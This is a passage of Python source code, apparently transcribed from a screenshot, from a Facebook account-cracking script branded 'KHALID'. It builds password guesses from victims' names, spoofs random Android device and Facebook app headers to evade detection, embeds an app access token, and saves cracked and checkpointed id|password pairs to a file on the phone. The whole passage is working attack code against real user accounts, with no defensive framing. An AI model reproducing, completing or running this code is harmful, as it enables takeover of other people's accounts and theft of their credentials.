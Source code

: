                                                 print('\r\r\33[1;97m[\033[1;92mKHALID-2F\033[1;97m]\033[1;92m '+ids+' | '+pas)
                                                twf.append(ids)
                                                break                   
                                elif 'www.facebook.com' in q['error_msg']:
                                        if 'y' in pcp:
                                                print('\r\r\x1b[1;92m[\033[0;91mKHALID-CP\033[0;92m] \033[0;90m'+ids+' \033[0;97m| \033[0;90m'+pas+'\033[1;97m')
                                                open('/sdcard/KHALID-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                                cps.append(ids)
                                                break
                                else:
                                        continue
                        loop+=1
                except requests.exceptions.ConnectionError:
                        time.sleep(10)
                except Exception as e:
                        pass
#_________[ METHOD 3 ]______>>  
def api1(ids,names,passlist):
                try:
                        global ok,loop,proxies
                        sys.stdout.write('\r\r\033[1;37m[\x1b[38;5;208mKHALID-M3\x1b[1;97m] \x1b[1;97m[\x1b[1;93m%s\x1b[1;97m] \033[1;37m[\x1b[1;92mOK ACCOUNTS\x1b[1;91m:\x1b[1;92m %s\x1b[1;97m] \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                        fn = names.split(' ')[0]
                        try:
                                ln = names.split(' ')[1]
                        except:
                                ln = fn
                        for pw in passlist:
                                pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))
                                application_version_code=str(random.randint(000000000,999999999))
                                fbs=random.choice(fbks)
                                gtt=random.choice(xxxxx)
                                gttt=random.choice(xxxxx)
                                android_version=str(random.randrange(6,13))
                                accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                                fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                                fbbv = str(random.randint(111111111,999999999))
                                android_version = device['android_version']
                                model = device['model']
                                build = device['build']
                                fblc = device['fblc']
                                fbcr = sim_id
                                fbmf = device['fbmf']
                                fbbd = device['fbbd']
                                fbdv = device['fbdv']
                                fbsv = device['fbsv']
                                fbca = device['fbca']
                                fbdm = device['fbdm']
                                fbfw = '1'
                                fbrv = '0'
                                fban = 'FB4A'
                                model = random.choice(['Infinix_X521','Infinix X672','Infinix X6815B','Infinix X6815B','Infinix X6515','Infinix X6516','Infinix X6825','Infinix X5516B','Infinix X669C','Infinix X669D','Infinix X6815C','Infinix X670','Infinix X5516C','Infinix X6826B','Infinix X5516C','Infinix X676C','Infinix X697','Infinix X5516B','Infinix X6515','Infinix X6811'])
                                fbap = random.choice(['414.0.0.30.113','414.0.0.30.113','354.0.0.8.108','354.0.0.8.108','405.0.0.16.112','414.0.0.30.113','414.0.0.30.113','413.0.0.30.104','414.0.0.30.113','408.1.0.16.113'])